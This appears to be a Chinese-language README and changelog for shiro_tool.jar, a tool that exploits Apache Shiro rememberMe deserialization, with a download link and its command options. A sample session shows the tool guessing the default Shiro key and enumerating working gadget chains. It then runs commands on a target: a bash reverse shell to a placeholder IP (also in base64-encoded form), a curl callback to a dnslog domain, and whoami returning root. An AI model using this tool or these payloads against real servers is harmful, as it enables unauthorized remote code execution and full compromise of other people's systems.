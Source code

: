 下载地址：https://xz.aliyun.com/forum/upload/affix/shiro_tool.zip  

2021-03-31：
新增自定义或随机useragent
randomagent --> random useragent
useragent=  --> set useragent
cookiename= --> default: rememberMe  

2020-10-16：
放出来一些功能：
1、spring/tomcat回显，执行命令的时候，x=whoami 就行
2、批量检测是否shiro
3、目标服务器不出网的情况下探测


2020-08-21: 
新增了cc8 cc9 cc10利用链
新增了输出payload模式，在执行命令的时候输入output=on即可。
参考下面的示例


2020-05-26:
原来的停止服务了，请下载最新版本。

> java -jar shiro_tool.jar
Usage: java -jar shiro_tool.jar https://xx.xx.xx.xx
nocheck     --> skip check target is shiro or not.
skip        --> all gadget default can be use
randomagent --> random useragent
useragent=  --> set useragent
cookiename= --> default: rememberMe      不是rememberMe的时候用
x=          --> print result
cmd=        --> set command to run
dcmd=       --> set command to run, command format base64 string
key=        --> set a shiro key
req=        --> request body file   request body file 抓包保存到文件里，这里写文件名
keys=       --> keys file       自定义key的文件，key按行分割，即每行写一个
java -cp shiro_tool.jar shiro.Check urls=批量url文件
java -cp shiro_tool.jar shiro.Check http://www.shiro.com


[admin@ shiro]java - shiro_tool.jar https://xx.xx.xx.xx/          
[-] target: https://xx.xx.xx.xx/
[-] target is use shiro
[-] start guess shiro key.
[-] shiro key: kPH+bIxk5D2deZiIxcaaaA==
[-] check URLDNS
[*] find: URLDNS can be use
[-] check CommonsBeanutils1
[*] find: CommonsBeanutils1 can be use
[-] check CommonsCollections1
[-] check CommonsCollections2
[-] check CommonsCollections3
[-] check CommonsCollections4
[-] check CommonsCollections5
[-] check CommonsCollections6
[-] check CommonsCollections7
[-] check CommonsCollections8
[-] check CommonsCollections9
[-] check CommonsCollections10
[-] check Groovy1
[*] find: Groovy1 can be use
[-] check JSON1
[*] find: JSON1 can be use
[-] check Spring1
[*] find: Spring1 can be use
[-] check Spring2
[-] check JRMPClient
[*] find: JRMPClient can be use
[*] JRMPClient please use: java -cp shiro_tool.jar ysoserial.exploit.JRMPListener 
0: URLDNS
1: CommonsBeanutils1
2: Groovy1
3: JSON1
4: Spring1
5: JRMPClient
[-] please enter the number(0-6)
3
[-] use gadget: JSON1
[*] command example: bash -i >& /dev/tcp/xx.xx.xx.xx/80 0>&1
[*] command example: curl dnslog.xx.com
[*] if need base64 command, input should startwith bash=/powershell=/python=/perl= 
[-] please enter command, input q or quit to quit
> curl json.dnslog.xx.cn
[-] start process command: curl json.dnslog.xx.cn
[-] please enter command, input q or quit to quit
> bash=bash -i >& /dev/tcp/xx.xx.xx.xx/80 0>&1
[-] start process command: bash -c {echo,YmFzaD1iYXNoIC1pID4mIC9kZXYvdGNwL3h4Lnh4Lnh4Lnh4LzgwIDA+JjE=}|{base64,-d}|{bash,-i}
[-] please enter command, input q or quit to quit
> output=on
[-] print payload mode on.
[-] please enter command, enter q or quit to quit, enter back to re-choose gadget
> whoami
kPH+bIxk5D2deZiIxcaaaA== - CommonsBeanutils1 - zEC2T+ZP+ib2g+NLMrrU0LRsNu3lr7kjq
82987eI8FZxA8ckaX8LsMNHdParxVS9aYg0Oxl91WD5GztG6Dmg/QO/sjxi+kX/sFpHgqwtG4MCQoogH
Jkhnj73PI6Wn8AJWQyXoOGNMkyboGcEm0Ti1h+WMGQEqw57tRl7Pjr0pMr2oZcUj9huwC/Lfr090FX7v
rPrU5JnQm2Qo7ZrMPnxENXs0yMT6HfU75OejeF6kXbWTaGlvfByscF1ljoDR/k2txdQ1eK4nZ4ReOAqM
uUeeaXwirEw2kg58GktvB2Ghw4egXJBQUdP3H8iE+zrkf12YlPs/RAOq8w0mWfvwB7EnCW3Z83YP8vV1
+reLT9oNyUpCfjKyQVodnpZJY7If4F9al8He7E832RR3mhFvsjJDyNFTbB4TPrRqFDehSVuHib5qkh0s
0YjvCGErxDLH9pFS4G9rNYQeAnXBKeNzS5q2O0xCe5xg4X6l8R6XsU2/V1d6wd27U7u18+DJlo/v58vj
SyUtUaEAAuMN9C30Rr+r7Tk9MVC55eS8l82fURpUwttcRADhJ0esKHAFFAkwnisbAb4Uugz3IADojYlH
BNFtWFuV2dsuqkionEROKLIdVHJGR8URmk79v8lbLbpCWI3cTCf81SwwBoYylKXCyHX2X08VlEUvuHWk
ypx9gVvDuQQQFTGP4ljwpU1NlQPqxaLXmnZ5TyJN2sycL9s8VWMYls4uFATtMkpXXcwaQGFVjCzFrABv
[-] please enter command, enter q or quit to quit, enter back to re-choose gadget
> x=whoami
root

[-] please enter command, enter q or quit to quit, enter back to re-choose gadget
> quit
[-] start process command: quit
[-] quit

